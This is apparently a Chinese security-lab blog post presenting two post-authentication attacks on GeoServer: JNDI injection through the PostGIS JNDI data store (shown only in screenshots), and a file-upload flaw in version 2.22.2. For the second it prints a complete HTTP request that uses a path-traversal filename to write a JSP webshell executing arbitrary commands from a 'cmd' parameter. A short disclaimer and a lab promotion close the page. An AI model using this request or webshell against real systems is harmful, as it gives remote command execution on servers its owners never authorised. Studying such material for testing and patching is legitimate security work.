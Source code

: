 #  geoserver漏洞解析以及测试方法   
原创 铁锅炖大鹅  星网实验室   2024-04-21 14:22  
  
![](https://mmbiz.qpic.cn/mmbiz_png/wiaue9ibOltD8XPW4tic7XhWH2y1kX6BrxtIs7mLr9KGqtsicVGTbEWH5ic3GY75MaN1ZLqA8sDTRsN9NwWibwmSUliaw/640?wx_fmt=png "")  
  
相信各位师傅在HVV中，都遇到过geoserver系统，但是一般都是弱口令或者信息泄露、SSRF之类的，拿shell的案例不多，下面分享下geoserver系统后台的两种打法。  
  
![](https://mmbiz.qpic.cn/mmbiz_png/wiaue9ibOltDicMfKmcJzYjaxQSVhek6Jmkfice4hVHZcqF6Fib0fU2tvXTzz85onPw8OvnLHDpmb2AwG6iapNMibxLDA/640?wx_fmt=png "")  
  
  
![](https://mmbiz.qpic.cn/mmbiz_png/wiaue9ibOltDibSceHZSNrnPVNwVp4Xo3vOUxKIDX977h2rZ4zxek8KhgGbEltlY7DGRxlEpEJHhLiaM3uX8CXbicOA/640?wx_fmt=png "")  
  
  
一、后台JNDI 注  
⼊  
  
测试版本：Version 2.13.3  
  
数据储存—》添加新的数据存储—》PostGIS (JNDI) —》jndiReferenceName *  
  
![](https://mmbiz.qpic.cn/mmbiz_png/wiaue9ibOltDibSceHZSNrnPVNwVp4Xo3vOJeorKPcliacSarsy4WXq14547IOH45ESkP9nibeXbe98CcibsY0M7kVDA/640?wx_fmt=png "")  
  
      
  
![](https://mmbiz.qpic.cn/mmbiz_png/wiaue9ibOltDibSceHZSNrnPVNwVp4Xo3vOa6SibvZhPQuib4UGBVEv3LlCWH4bSOmYIDY17BUCaq95RL83DQ7QdH3A/640?wx_fmt=png "")  
  
  
![](https://mmbiz.qpic.cn/mmbiz_png/wiaue9ibOltDibSceHZSNrnPVNwVp4Xo3vO8jyLKo6U0icpp2hzrtPLMj91biaVmT6SdGR1CmWWZhc4U0js77vcjichA/640?wx_fmt=png "")  
  
  
使用CB1链，弹个计算器      
  
![](https://mmbiz.qpic.cn/mmbiz_png/wiaue9ibOltDibSceHZSNrnPVNwVp4Xo3vOFsDZBP25HwLkTMjIiawGxcicV6tfzJk20YiaLz2PKDOztCFVEesmFFKibg/640?wx_fmt=png "")  
  
  
            
  
二、GeoServer后台文件上传致远程代码执行漏洞  
  
测试版本：Version 2.22.2  
  
![](https://mmbiz.qpic.cn/mmbiz_png/wiaue9ibOltDibSceHZSNrnPVNwVp4Xo3vOuKnQnia9y7edbzGSvnQechvrHRdTaf9sia1icstiaavrpzKwXfibHNouOlA/640?wx_fmt=png "")  
  
      
  
![](https://mmbiz.qpic.cn/mmbiz_png/wiaue9ibOltDibSceHZSNrnPVNwVp4Xo3vOxhfLFXRPwGvu3ic8CsWa9AlRtc1XWEPogkSLD4ua8VdPic0y26xCse7g/640?wx_fmt=png "")  
  
  
修改相对路径为绝对路径，即可愉快的上传webshell了。      
  
![](https://mmbiz.qpic.cn/mmbiz_png/wiaue9ibOltDibSceHZSNrnPVNwVp4Xo3vOuU3biclygIQEfJ6hiaJ6ByWH4icvO0ZgiaJ5KgT3WE2lyxPUKQzHc3ammw/640?wx_fmt=png "")  
  
  
![](https://mmbiz.qpic.cn/mmbiz_png/wiaue9ibOltDibSceHZSNrnPVNwVp4Xo3vOPRFEsjH2PcMRU9agibmw67nUBxQOcCBvFFEYJPBJu5FBHNHP8CSquAg/640?wx_fmt=png "")  
  
  
我了个去，不解析jsp      
  
![](https://mmbiz.qpic.cn/mmbiz_png/wiaue9ibOltDibSceHZSNrnPVNwVp4Xo3vOQYtVYuqslVPAPRFpLUIrXosDVznOXAy2cUCbgckDmoLNaDxtkZ0hWw/640?wx_fmt=png "")  
  
  
![](https://mmbiz.qpic.cn/mmbiz_png/wiaue9ibOltDibSceHZSNrnPVNwVp4Xo3vOFIQzjNmYWbGiah7LAVDc46PjqxK6rhJynEP1RvYbARWWicb1iatdvzUbw/640?wx_fmt=png "")  
  
  
换war包用tomcat部署  
  
![](https://mmbiz.qpic.cn/mmbiz_png/wiaue9ibOltDibSceHZSNrnPVNwVp4Xo3vOT4nkVTiaYvU0GbK296TeUxgkeIkrOgYtzWibDDnBaozhMFo2bfx95icpw/640?wx_fmt=png "")  
  
      
  
![](https://mmbiz.qpic.cn/mmbiz_png/wiaue9ibOltDibSceHZSNrnPVNwVp4Xo3vOBic8HWcfCMnGQwMoVlLFfmmdEibqcH0YhbPJxPA1uSTGiamPIQdqctr3Q/640?wx_fmt=png "")  
  
  
![](https://mmbiz.qpic.cn/mmbiz_png/wiaue9ibOltDibSceHZSNrnPVNwVp4Xo3vOjyNJbajrjySkPenK1kKwd5NkjWutrX7XsJ1stO74o4QfLibq3fge4XQ/640?wx_fmt=png "")  
  
<table><tbody><tr><td width="414" valign="top" style="padding: 0pt 5.4pt;border-width: 1pt;border-color: windowtext;"><p style="line-height: 25.5px;"><span style="font-size: 12pt;line-height: 24px;font-family: &#34;Times New Roman&#34;;font-variant-numeric: normal;font-variant-east-asian: normal;font-variant-alternates: normal;font-variant-position: normal;">POST /geoserver/rest/workspaces/nurc/coveragestores/mosaic/file.shp?filename=../../../../shell/1.jsp HTTP/1.1</span></p><p style="line-height: 25.5px;"><span style="font-size: 12pt;line-height: 24px;font-family: &#34;Times New Roman&#34;;font-variant-numeric: normal;font-variant-east-asian: normal;font-variant-alternates: normal;font-variant-position: normal;">Host: localhost:8080</span></p><p style="line-height: 25.5px;"><span style="font-size: 12pt;line-height: 24px;font-family: &#34;Times New Roman&#34;;font-variant-numeric: normal;font-variant-east-asian: normal;font-variant-alternates: normal;font-variant-position: normal;">Content-Length: 370</span></p><p style="line-height: 25.5px;"><span style="font-size: 12pt;line-height: 24px;font-family: &#34;Times New Roman&#34;;font-variant-numeric: normal;font-variant-east-asian: normal;font-variant-alternates: normal;font-variant-position: normal;">sec-ch-ua: &#34;Not_A Brand&#34;;v=&#34;8&#34;, &#34;Chromium&#34;;v=&#34;120&#34;</span>        <o:page></o:page></p><p style="line-height: 25.5px;"><span style="font-size: 12pt;line-height: 24px;font-family: &#34;Times New Roman&#34;;font-variant-numeric: normal;font-variant-east-asian: normal;font-variant-alternates: normal;font-variant-position: normal;">sec-ch-ua-mobile: ?0</span></p><p style="line-height: 25.5px;"><span style="font-size: 12pt;line-height: 24px;font-family: &#34;Times New Roman&#34;;font-variant-numeric: normal;font-variant-east-asian: normal;font-variant-alternates: normal;font-variant-position: normal;">Wicket-FocusedElementId: id39</span></p><p style="line-height: 25.5px;"><span style="font-size: 12pt;line-height: 24px;font-family: &#34;Times New Roman&#34;;font-variant-numeric: normal;font-variant-east-asian: normal;font-variant-alternates: normal;font-variant-position: normal;">User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/120.0.6099.199 Safari/537.36</span></p><p style="line-height: 25.5px;"><span style="font-size: 12pt;line-height: 24px;font-family: &#34;Times New Roman&#34;;font-variant-numeric: normal;font-variant-east-asian: normal;font-variant-alternates: normal;font-variant-position: normal;">Content-Type: multipart/form-data; boundary-----WebKitFormBoundaryfoycybhDiQZEqxoy</span></p><p style="line-height: 25.5px;"><span style="font-size: 12pt;line-height: 24px;font-family: &#34;Times New Roman&#34;;font-variant-numeric: normal;font-variant-east-asian: normal;font-variant-alternates: normal;font-variant-position: normal;">Accept: application/xml, text/xml, */*; q=0.01</span></p><p style="line-height: 25.5px;"><span style="font-size: 12pt;line-height: 24px;font-family: &#34;Times New Roman&#34;;font-variant-numeric: normal;font-variant-east-asian: normal;font-variant-alternates: normal;font-variant-position: normal;">Wicket-Ajax-BaseURL: wicket/bookmarkable/org.geoserver.web.data.store.CoverageStoreEditPage?7&amp;storeName=mosaic&amp;wsName=nurc</span></p><p style="line-height: 25.5px;"><span style="font-size: 12pt;line-height: 24px;font-family: &#34;Times New Roman&#34;;font-variant-numeric: normal;font-variant-east-asian: normal;font-variant-alternates: normal;font-variant-position: normal;">X-Requested-With: XMLHttpRequest</span></p><p style="line-height: 25.5px;"><span style="font-size: 12pt;line-height: 24px;font-family: &#34;Times New Roman&#34;;font-variant-numeric: normal;font-variant-east-asian: normal;font-variant-alternates: normal;font-variant-position: normal;">Wicket-Ajax: true</span></p><p style="line-height: 25.5px;"><span style="font-size: 12pt;line-height: 24px;font-family: &#34;Times New Roman&#34;;font-variant-numeric: normal;font-variant-east-asian: normal;font-variant-alternates: normal;font-variant-position: normal;">sec-ch-ua-platform: &#34;Windows&#34;</span></p><p style="line-height: 25.5px;"><span style="font-size: 12pt;line-height: 24px;font-family: &#34;Times New Roman&#34;;font-variant-numeric: normal;font-variant-east-asian: normal;font-variant-alternates: normal;font-variant-position: normal;">Origin: http://localhost:8080</span></p><p style="line-height: 25.5px;"><span style="font-size: 12pt;line-height: 24px;font-family: &#34;Times New Roman&#34;;font-variant-numeric: normal;font-variant-east-asian: normal;font-variant-alternates: normal;font-variant-position: normal;">Sec-Fetch-Site: same-origin</span></p><p style="line-height: 25.5px;"><span style="font-size: 12pt;line-height: 24px;font-family: &#34;Times New Roman&#34;;font-variant-numeric: normal;font-variant-east-asian: normal;font-variant-alternates: normal;font-variant-position: normal;">Sec-Fetch-Mode: cors</span></p><p style="line-height: 25.5px;"><span style="font-size: 12pt;line-height: 24px;font-family: &#34;Times New Roman&#34;;font-variant-numeric: normal;font-variant-east-asian: normal;font-variant-alternates: normal;font-variant-position: normal;">Sec-Fetch-Dest: empty</span></p><p style="line-height: 25.5px;"><span style="font-size: 12pt;line-height: 24px;font-family: &#34;Times New Roman&#34;;font-variant-numeric: normal;font-variant-east-asian: normal;font-variant-alternates: normal;font-variant-position: normal;">Referer: http://localhost:8080/geoserver/web/wicket/bookmarkable/org.geoserver.web.data.store.CoverageStoreEditPage?7&amp;storeName=mosaic&amp;wsName=nurc</span></p><p style="line-height: 25.5px;"><span style="font-size: 12pt;line-height: 24px;font-family: &#34;Times New Roman&#34;;font-variant-numeric: normal;font-variant-east-asian: normal;font-variant-alternates: normal;font-variant-position: normal;">Accept-Encoding: gzip, deflate, br</span></p><p style="line-height: 25.5px;"><span style="font-size: 12pt;line-height: 24px;font-family: &#34;Times New Roman&#34;;font-variant-numeric: normal;font-variant-east-asian: normal;font-variant-alternates: normal;font-variant-position: normal;">Accept-Language: zh-CN,zh;q=0.9</span></p><p style="line-height: 25.5px;"><span style="font-size: 12pt;line-height: 24px;font-family: &#34;Times New Roman&#34;;font-variant-numeric: normal;font-variant-east-asian: normal;font-variant-alternates: normal;font-variant-position: normal;">Cookie:JSESSIONID=52159346772CE228794C0E097A442D9F</span></p><p style="line-height: 25.5px;"><span style="font-size: 12pt;line-height: 24px;font-family: &#34;Times New Roman&#34;;font-variant-numeric: normal;font-variant-east-asian: normal;font-variant-alternates: normal;font-variant-position: normal;">Connection: close</span></p><p style="line-height: 25.5px;"><span style="font-size: 12pt;line-height: 24px;font-family: &#34;Times New Roman&#34;;font-variant-numeric: normal;font-variant-east-asian: normal;font-variant-alternates: normal;font-variant-position: normal;">                 <o:p> </o:p></span></p><p style="line-height: 25.5px;"><span style="font-size: 12pt;line-height: 24px;font-family: &#34;Times New Roman&#34;;font-variant-numeric: normal;font-variant-east-asian: normal;font-variant-alternates: normal;font-variant-position: normal;">&lt;%</span></p><p style="line-height: 25.5px;"><span style="font-size: 12pt;line-height: 24px;font-family: &#34;Times New Roman&#34;;font-variant-numeric: normal;font-variant-east-asian: normal;font-variant-alternates: normal;font-variant-position: normal;">    if(request.getParameter(&#34;cmd&#34;) != null) {</span></p><p style="line-height: 25.5px;"><span style="font-size: 12pt;line-height: 24px;font-family: &#34;Times New Roman&#34;;font-variant-numeric: normal;font-variant-east-asian: normal;font-variant-alternates: normal;font-variant-position: normal;">        java.io.InputStream in = Runtime.getRuntime().exec(request.getParameter(&#34;cmd&#34;)).getInputStream();</span>        <o:page></o:page></p><p style="line-height: 25.5px;"><span style="font-size: 12pt;line-height: 24px;font-family: &#34;Times New Roman&#34;;font-variant-numeric: normal;font-variant-east-asian: normal;font-variant-alternates: normal;font-variant-position: normal;">        int a = -1;</span></p><p style="line-height: 25.5px;"><span style="font-size: 12pt;line-height: 24px;font-family: &#34;Times New Roman&#34;;font-variant-numeric: normal;font-variant-east-asian: normal;font-variant-alternates: normal;font-variant-position: normal;">        byte[] b = new byte[2048];</span></p><p style="line-height: 25.5px;"><span style="font-size: 12pt;line-height: 24px;font-family: &#34;Times New Roman&#34;;font-variant-numeric: normal;font-variant-east-asian: normal;font-variant-alternates: normal;font-variant-position: normal;">        out.print(&#34;</span></p><pre>&#34;);<p><br/></p><p style="line-height: 25.5px;"><span style="font-size: 12pt;">        while((a=in.read(b))!=-1) {</span></p><p style="line-height: 25.5px;"><span style="font-size: 12pt;">            out.print(new String(b));</span></p><p style="line-height: 25.5px;"><span style="font-size: 12pt;">        }</span></p><p style="line-height: 25.5px;"><span style="font-size: 12pt;">        out.print(&#34;</span></p></pre>&#34;);<p><br/></p><p style="line-height: 25.5px;"><span style="font-size: 12pt;line-height: 24px;font-family: &#34;Times New Roman&#34;;font-variant-numeric: normal;font-variant-east-asian: normal;font-variant-alternates: normal;font-variant-position: normal;">    }</span></p><p style="line-height: 25.5px;"><span style="font-size: 12pt;line-height: 24px;font-family: &#34;Times New Roman&#34;;font-variant-numeric: normal;font-variant-east-asian: normal;font-variant-alternates: normal;font-variant-position: normal;">%&gt;</span></p></td></tr></tbody></table>  
![](https://mmbiz.qpic.cn/mmbiz_png/wiaue9ibOltDibSceHZSNrnPVNwVp4Xo3vOptWbbRGO14CGCoDXDgzwgkicX03JMmkooXTrDubma1MBZxwT9w3rzEA/640?wx_fmt=png "")  
  
  
该漏洞虽然已公布部分 poc但仍处于 1day状态，请勿用于违法用途，仅做测试环境交流学习。由于该系统弱口令使用情况较为广泛，建议受影响的用户尽快修复漏洞。  
      
  
-=[感·谢·阅·读]=-  
  
**关于我们**  
  
  
星网实验室成立（starnetlabs）于2021年10月，是智网安云（武汉）信息技术有限公司旗下安全研究院实验室之一，其成员主要来源于国内一线安全厂商或监管执法机构，多名成员取得CISSP，CISP，PMP，CISAW，PTE等国内网络安全圈行业认证证书，该实验室研究员多次参加国内和省内网络安全攻防比赛取得佳绩。实验室主要研究方向：网络安全攻防竞赛、最前沿的攻防技术，云计算安全、物联网安全等。形成一支结构合理、创新能力强的产学研队伍。星网实验室将持续沉淀前沿安全能力，面向产业输出业蓝军网络安全对抗工具、红队攻击武器平台、蜜网平台、大数据安全管理中心等产品，并持续开放各项核心能力，推动产业安全能力建设。护航各行业数字化变革，守护大数据时代的网络安全是星网实验室的使命。  
  
**大**  
  
**佬**  
  
**，**  
  
**关**  
  
**注**  
  
**一**  
  
**下**  
  
**呗**  
  
**！**  
  
  
  
